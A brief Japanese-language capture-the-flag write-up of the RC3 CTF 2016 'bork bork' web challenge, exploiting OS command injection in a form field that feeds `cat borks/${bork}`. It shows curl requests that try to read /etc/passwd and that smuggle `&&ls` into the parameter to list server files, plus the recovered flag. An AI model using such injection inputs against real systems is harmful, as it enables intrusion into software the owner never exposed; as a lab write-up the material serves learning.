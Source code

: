 ```yaml
---
layout: post
redirect_from:
  - /writeup/ctf/2016/rc3-ctf-2016-bork-bork/
  - /blog/2016/11/21/rc3-ctf-2016-bork-bork/
date: "2016-11-21T17:47:26+09:00"
tags: [ "ctf", "writeup", "rc3-ctf", "web", "os-command-injection" ]
---
```


# RC3 CTF 2016: bork bork


れべな氏にosコマンドインジェクションと言われて続きをやった。
`cat borks/${bork}`で入るので`../bork.txt`を読めばflag: `RC3-2016-L057d0g3`。
分かりにくいファイル名はやめろ。

`;`や`*`は禁止文字だったぽい？

``` sh
$ curl https://ctf.rc3.club:3100/bork -F bork='/etc/passwd'
<!DOCTYPE html>
<html>
    <head>
        <link rel="stylesheet" type="text/css" href="/static/bork.css">
        <link rel="shortcut icon" href="/static/favicon.ico">
    </head>
    <body>
        <h1>HERE'S YOUR BORK!!!!</h1>
        <iframe width="854" height="480" src="cat: borks//etc/passwd: No such file or directory?autoplay=1&loop=1" frameborder="0"></iframe>
    </body>
</html>
```

``` sh
$ curl https://ctf.rc3.club:3100/bork -F bork='TheBorkFiles.txt&&ls'
<!DOCTYPE html>
<html>
    <head>
        <link rel="stylesheet" type="text/css" href="/static/bork.css">
        <link rel="shortcut icon" href="/static/favicon.ico">
    </head>
    <body>
        <h1>HERE'S YOUR BORK!!!!</h1>
        <iframe width="854" height="480" src="https://www.youtube.com/embed/AuRXVMSG3po
auto_bork.sh
bork.ini
bork.py
bork.pyc
borks
bork.sock
bork.txt
static
templates
wsgi.py
wsgi.pyc?autoplay=1&loop=1" frameborder="0"></iframe>
    </body>
</html>
```
